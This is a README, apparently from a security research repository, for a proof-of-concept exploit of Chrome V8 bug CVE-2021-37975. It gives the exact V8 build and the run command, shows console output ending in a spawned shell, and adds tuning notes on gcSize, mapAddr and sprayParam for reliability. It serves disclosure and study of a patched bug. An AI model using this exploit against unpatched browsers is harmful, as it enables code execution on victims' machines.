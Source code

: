 ## Chrome in-the-wild bug CVE-2021-37975

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on `v8` version 9.4.146.16 (commit `452f57b`), which is the version shipped with Chrome 94.0.4606.71, the one before the bug is fixed, on Ubuntu 20.04. Tested on two different desktop devices with different specs.

To test, check out `v8` at commit `452f57b` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
fail to find object address.
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fetch failed
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
fail to find object address.
found instance address: 0x81d40f5 at index: 0
array address: 0x804294d
array element address: 0x8042935
fake array at: 8 index: 0
rwx address at: 0x28c7931bc000
fake array at: 8 index: 1
rwx address at: 0x28c7931bc000
shellArray addr: 0x8048d75
$ 
```

Shell code may need changing on other platforms.

The exploit is not reliable, (probably about 50 percent success rate). The variable `gcSize` may need changing depending on the device, and the variable `mapAddr` also depends on the version of v8 (it is an offset). Changing the variable `sprayParam` may also improve the reliability. The current parameter seems to give reasonable reliability across the two devices tested.
